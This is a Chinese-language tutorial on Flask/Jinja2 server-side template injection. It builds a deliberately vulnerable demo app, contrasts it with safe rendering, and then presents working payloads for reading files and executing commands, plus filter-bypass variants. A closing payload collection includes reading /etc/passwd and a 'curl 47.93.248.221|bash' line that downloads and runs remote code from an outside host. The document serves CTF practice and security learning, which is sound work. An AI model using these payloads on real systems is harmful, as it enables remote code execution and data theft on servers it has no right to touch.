# Flask本地环境搭建

环境:python3.9

导入flask模块:pip install flask

新建一个app.py:

```
from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.route('/')
def test():
    id= request.args.get('id')
    html = '''
         <h1>SSTI</h1>
         <h3>%s</h3>
     '''%(id)

    return render_template_string(html)


if __name__ == '__main__':
    app.debug = True    #这样就可以不重新运行程序来,直接修改代码即可
    app.run(host='0.0.0.0')
```





环境搭建已经完成

# Flask基础

## route装饰路由

```
@app.route('/')
def test():
    id= request.args.get('id')
    html = '''
         <h1>SSTI</h1>
         <h3>%s</h3>
     '''%(id)

    return render_template_string(html)
```

```
@app.route('/')
```

告诉服务器什么样的URL能触发我们的函数

这句话相当于路由，一个路由跟随一个函数

比如127.0.0.1:5000/就能触发上述函数



```
@app.route('/test')
```

访问127.0.0.1:5000/test即可

设置动态网址辨别身份:

```
@app.route("/test/<username>")
def dawntown(username):
    return "user:%s" % username
```



## 模板渲染方法(重点)

有两种模板渲染方法:

```
渲染文件:
render_template()
使用方法如下:
return render_templata('index.html')

渲染字符串:
render_template_string()
使用方法:
html = '<h1>This is index page</h1>'
return render_template_string(html)
```

flask用的是jinja2的模板引擎

先了解两个基本语句:

```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。 

：装载一个控制语句，if、for等语句。
```

简单的模板渲染实例:

创建一个templates文件夹,里面放一个index.html

```
<html>
  <head>
    <title>{{title}} - dawntown</title>
  </head>
 <body>
      <h1>Hello, {{user.name}}!</h1>
  </body>
</html>
```

app.py的代码：

```
from flask import Flask
from flask import render_template


app = Flask(__name__)

@app.route('/')
@app.route('/index')   # 我们访问/或者/index都会跳转
def index():
   user = {'name': 'dawntown'}   # 传入一个字典数组
   return render_template("index.html",title='Home',user=user)

if __name__ == '__main__':
    app.debug = True    #这样就可以不重新运行程序来,直接修改代码即可
    app.run(host='0.0.0.0')
```

这样用render_template()来渲染index.html里面的title和user

传入字典数组,所以user.name=dawntown



# 模板注入

ssti服务端模板注入，ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成了模板可控


存在两个渲染形式,一种当字符串来渲染并且使用了%(request.url)，另一种规范使用index.html渲染文件。我们漏洞代码使用了render_template_string函数

我们分别来试试效果

app.py:

```
from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)

if __name__ == '__main__':
    app.debug = True    #这样就可以不重新运行程序来,直接修改代码即可
    app.run(host='0.0.0.0')
```



可以发现我们的语句被执行了，当然也可以触发xss

这段代码存在漏洞的原因是数据和代码的混淆。代码中的code是用户可控的，会和html拼接后直接带入渲染

相当于我们直接控制了模板的内容

换种写法:

```
from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{code}}',code=code)

if __name__ == '__main__':
    app.debug = True    #这样就可以不重新运行程序来,直接修改代码即可
    app.run(host='0.0.0.0')
```



可以看到我们传的内容被原样输出了

**这是因为模板引擎一般都默认对渲染的 变量值 进行编码转义，这样就不会存在xss了。在这段代码中用户所控的是code变量，而不是模板内容。存在漏洞的代码中，模板内容直接受用户控制的**

用render_template渲染

```
from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template('index.html',code=code)

if __name__ == '__main__':
    app.debug = True    #这样就可以不重新运行程序来,直接修改代码即可
    app.run(host='0.0.0.0')
```



还是不会出现ssti漏洞

程序员因为省事并不会专门写一个html文件，而是直接当字符串来渲染。并且request.url是可控的，这也正是flask在CTF中经常使用的手段

# 利用SSTI读取文件和命令执行

先了解一下python中的几个魔术函数

```
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的
// 在python中，每个类都有一个bases属性，列出其基类
__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```


一个存在SSTI的代码:

```
from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.route('/test/')
def test():
    id= request.args.get('id')
    html = '''
         <h1>SSTI</h1>
         <h3>%s</h3>
     '''%(id)

    return render_template_string(html)


if __name__ == '__main__':
    app.debug = True    #这样就可以不重新运行程序来,直接修改代码即可
    app.run(host='0.0.0.0')
```

flask中的全局变量:



魔术函数用法:

1. 获取字符串的类对象

```
print(''.__class__)
```


2. 寻找基类（在python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。）

```
print(''.__class__.__base__)
```



```
print(''.__class__.__bases__)
```



```
print(''.__class__.__mro__)
```



3. 寻找可用引用（返回列表，即object类下的方法）

```
print(''.__class__.__bases__[0].__subclasses__())
```



```
print(''.__class__.__mro__[1].__subclasses__())
```

效果和`print(''.__class__.__bases__[0].__subclasses__())`一样

python3中利用了eval函数去实现RCE的功能

```


  
  
    
      {{ b['eval']('__import__("os").popen("dir").read()') }}
    
  
  


```



除此之外:

```
{{config.__init__.__globals__['os'].popen('dir').read()}}
```

也可以用来执行windows下的dir命令,当然linux下的ls等也可以

# Bypass

1.过滤[]等括号

使用gititem绕过。如原`poc {{"".__class__.__bases__[0]}}`

绕过后`{{"".__class__.__bases__.__getitem__(0)}}`

2.过滤了subclasses，拼凑法

原`poc{{"".__class__.__bases__[0].__subclasses__()}}`

绕过 `{{''.__class__.__bases__[0]['__subcla'+'sses__']()}}`

3.过滤class

使用session

poc `{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0].__bases__[0].__subclasses__()}}`

如果`__bases__[0]`不够则不能找到objec类



多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12].__subclasses__()}}
```

或者

```
{{request['__cl'+'ass__'].__mro__[3].__subclasses__()}}//如果报错则修改[3]
```



```
全16进制

{{""["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[64]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]("\x6f\x73")["\x70\x6f\x70\x65\x6e"]("ls")["\x72\x65\x61\x64"]()}}
```


4. 过滤下划线

   ```
   {{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
   ```

   

其实ssti基本上不常见,只要注意到了模板渲染的方法其实是不容易出现这个漏洞的

收藏的一些payload

```
{{[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()}}

{{[].__class__.__bases__[0].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()
}}

{{''.__class__.__mro__[1].__subclasses__()[94].get_data(0,"/flag")}}

{{lipsum.__globals__.['os'].popen('curl 47.93.248.221|bash').read()}}
{{lipsum|attr("__globals__")("os")|attr("popen")("ls")|attr("read")()}}

{{lipsum.__globals__.os.popen(request.args.x1).read()}}然后在get参数x1

{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}} #cookie a=__globals__ b=ls

{{config.__init__.__globals__['os'].popen('ls').read()}}

{{(config|attr(request.args.a))|attr()['os'].popen('ls').read()}}

()|attr(request.args.a)|attr(request.args.b)[0]|attr(request.args.c)()

lipsum[(()|select|string)[24]~(()|select|string)[24]~dict(glo=aa,bals=dd)|join~(()|select|string)[24]~ (()|select|string)[24]][]  #lipsum.__globals__

读变量
lipsum[(()|select|string)[24]~(()|select|string)[24]~dict(glo=aa,bals=dd)|join~(()|select|string)[24]~ (()|select|string)[24]][(()|select|string)[24]~(()|select|string)[24]~dict(buil=aa,tins=dd)|join~(()|select|string)[24]~(()|select|string)[24]][(()|select|string)[24]~(()|select|string)[24]~dict(impo=aa,rt=dd)|join~(()|select|string)[24]~ (()|select|string)[24]](dict(a=aa,pp=bb)|join)[dict(ke=aa,y=bb)|join]


cat app.py
lipsum[(()|select|string)[24]~(()|select|string)[24]~dict(glo=aa,bals=dd)|join~(()|select|string)[24]~ (()|select|string)[24]][dict(o=aa,s=dd)|join][dict(po=aa,pen=dd)|join](dict(ca=aa,t=dd)|join~{}|center|last~dict(a=aa,pp=dd)|join~lipsum|float|string|min~dict(p=aa,y=dd)|join)[dict(re=aa,ad=dd)|join]()
```

```
lipsum|float|string|min # .
{}|center|last # 空格
(request|string)[15] # 根据返回值截取的/
```


参考链接：https://blog.csdn.net/qq_45521281/article/details/106252560
